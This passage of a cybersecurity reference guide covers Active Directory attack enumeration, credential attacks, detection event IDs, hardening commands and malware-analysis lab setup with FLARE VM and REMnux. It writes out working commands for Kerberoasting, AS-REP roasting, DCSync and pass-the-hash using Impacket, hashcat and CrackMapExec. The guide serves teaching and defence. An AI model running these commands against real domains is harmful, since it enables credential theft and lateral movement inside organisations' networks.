Get-DomainUser -AdminCount 1                          # admin accounts
Get-DomainGroupMember "Domain Admins" -Recurse        # DA members
Find-InterestingDomainAcl -ResolveGUIDs               # misconfigured ACLs
Find-DomainUserLocation -UserName "DA_User"            # where DA is logged in
```
 
**Credential attacks (Linux / Impacket):**
```bash
# Kerberoasting
python3 GetUserSPNs.py corp.local/user:Pass -dc-ip DC01 -request -outputfile hashes.txt
hashcat -m 13100 hashes.txt rockyou.txt
 
# AS-REP roasting (no credentials needed)
python3 GetNPUsers.py corp.local/ -dc-ip DC01 -no-pass -usersfile users.txt -format hashcat
hashcat -m 18200 asrep.txt rockyou.txt
 
# DCSync (requires replication rights)
python3 secretsdump.py 'corp.local/DA_User:Password@DC01'
 
# Pass-the-Hash
python3 wmiexec.py corp/Administrator@TARGET -hashes :NTLM_HASH
crackmapexec smb 192.168.1.0/24 -u Administrator -H NTLM_HASH
```
 
### Key Detection Events
 
| Event ID | Attack | Sigma Rule |
|---|---|---|
| 4769 (RC4 cipher) | Kerberoasting | `TicketEncryptionType == 0x17` + not computer account |
| 4771 | AS-REP roasting / spray | Pre-auth failures in volume |
| 4662 (replication GUIDs) | DCSync | `1131f6aa` or `1131f6ab` from non-DC |
| 4624 LogonType 3 + NTLM | Pass-the-hash | Workstation→workstation NTLM lateral movement |
| 7045 | PsExec / service install | New service from unexpected process |
| 5136 | AdminSDHolder modification | Write to `CN=AdminSDHolder` |
 
### Hardening Checklist
 
```powershell
# Disable WDigest - prevents cleartext creds in LSASS
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
    -Name "UseLogonCredential" -Value 0
 
# LSASS Protected Process Light - blocks most dumping
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1
 
# Protected Users group - removes NTLM, DES/RC4, delegation for privileged accounts
Add-ADGroupMember -Identity "Protected Users" -Members "DA_User1","DA_User2"
 
# LAPS - randomize local admin passwords
msiexec /q /i LAPS.x64.msi
Set-AdmPwdComputerSelfPermission -OrgUnit "OU=Workstations,DC=corp,DC=local"
 
# Rotate krbtgt (invalidates golden tickets)
# https://github.com/microsoftarchive/New-KrbtgtKeys.ps1
# Must rotate TWICE, 10 hours apart
```
 
**AD Assessment tools:**
- [BloodHound](https://github.com/SpecterOps/BloodHound) - attack path mapping
- [Pingcastle](https://www.pingcastle.com/) - free AD health/risk score
- [Purple Knight](https://www.semperis.com/purple-knight/) - free AD security assessment
[Return to Table of Contents](#table-of-contents---enhanced-edition)
 
---
 
## Analysis Environments
 
*Full reference: [Tradecraft/av-edr-evasion.md - Analysis Environments & Tooling Reference](Tradecraft/av-edr-evasion.md#analysis-environments--tooling-reference)*
 
### Windows - FLARE VM (Mandiant)
 
Complete Windows malware-analysis workstation. Install only on a clean, disposable
Windows VM after taking a snapshot. Follow the current
[Mandiant FLARE-VM instructions](https://github.com/mandiant/flare-vm). Download
the installer from the official repository, inspect its source and origin, and
keep any execution-policy change scoped to the current PowerShell process:

```powershell
Set-ExecutionPolicy Unrestricted -Scope Process -Force
Unblock-File .\install.ps1
.\install.ps1
```
 
**Key tools installed:** x64dbg, IDA Free, Ghidra, PE-bear, CFF Explorer, Detect-It-Easy,
Process Monitor, Process Hacker, VMMap, Regshot, FakeNet-NG, CyberChef, dnSpy, de4dot, Wireshark
 
### Linux - REMnux
 
Ubuntu-based Linux malware analysis distro. Use alongside FLARE VM.
 
```bash
curl -O https://REMnux.org/remnux          # verify SHA256 against docs.remnux.org
chmod +x remnux && sudo mv remnux /usr/local/bin
sudo remnux install
```
 
**Key tools installed:** Volatility 3, YARA, radare2/Cutter, Ghidra, pestudio, ssdeep,
oledump, pdfid/pdf-parser, vmonkey, NetworkMiner, Wireshark, FakeNet-NG, inetsim
 
### Cross-Platform Tool Reference
 
| Tool | Windows | Linux | Purpose |
|---|---|---|---|
| **Ghidra** | `ghidraRun.bat` | `./ghidraRun` | NSA decompiler, full RE |
| **Volatility 3** | `python vol.py` | `python3 vol.py` | Memory forensics |
| **CyberChef** | Browser/Electron | Browser/Node | Decode obfuscated content |
| **YARA** | `yara64.exe` | `apt install yara` | Pattern matching |
| **Wireshark** | GUI installer | `apt install wireshark` | PCAP analysis |
| **Sigma** | Python/sigmac | Python/sigmac | Detection rule format |
| **Atomic Red Team** | PowerShell module | Bash executor | Purple team testing |
| **Impacket** | `pip install impacket` | `pip3 install impacket` | Windows protocol toolkit |
| **CrackMapExec** | `pip install cme` | `apt install cme` | SMB/AD testing |
| **Hashcat** | `hashcat.exe` | `hashcat` | Hash cracking |
| **PE-sieve** | Native Windows | ❌ | Process injection scanner |
| **Moneta** | Native Windows | ❌ | In-memory IOC scanner |
| **Zeek** | Limited | ✅ primary | Protocol log generation |
| **pktmon** | Built-in Win10+ | ❌ | Windows packet capture |
| **tcpdump** | ❌ (use pktmon) | ✅ native | Live capture/scripting |
 
### Quick Environment Selection
 
```
Analyzing Windows malware?
  → FLARE VM (static) + Process Monitor (dynamic) + PE-sieve (memory)
 
Analyzing Linux ELF?
  → REMnux + pwndbg + rizin/Cutter + strace/ltrace
 
Decoding obfuscated script?
  → CyberChef (any platform, browser-based)
 
Full behavioral analysis?
  → CAPE Sandbox (self-hosted Ubuntu) - auto-extracts C2 configs
 
Memory forensics?
  → Volatility 3 (either platform) + pe-sieve (Windows live process)
```
 
[Return to Table of Contents](#table-of-contents---enhanced-edition)

**END OF ENHANCED CYBERSECURITY MASTER GUIDE**

*This comprehensive enhanced guide includes:*
- ✅ OPSEC fundamentals
- ✅ VM setup procedures
- ✅ Hardware arsenal
- ✅ Complete OSINT methodology
- ✅ Real-world attack case studies
- ✅ Team playbooks (Purple/Blue)
- ✅ Custom automation scripts
- ✅ Detection rules & SIEM ingestion

*November 2026: Current module links are checked; older embedded commands and external references require per-tool verification before use.*

## Related Files
- [README.md](README.md) - Repo index and navigation
- [ultimate_cybersecurity_master_guide.md](ultimate_cybersecurity_master_guide.md) - Foundational guide this enhances
- [SPECIALIZED_TOPICS_GUIDE.md](SPECIALIZED_TOPICS_GUIDE.md) - Third guide: specialized/emerging domains
- [START_HERE.md](START_HERE.md) - Navigation guide for the series

---
[⬅️ Back to Master Index](README.md) | [🎯 Role Navigation](START_HERE.md) | [Legal Notice](LEGAL.md)
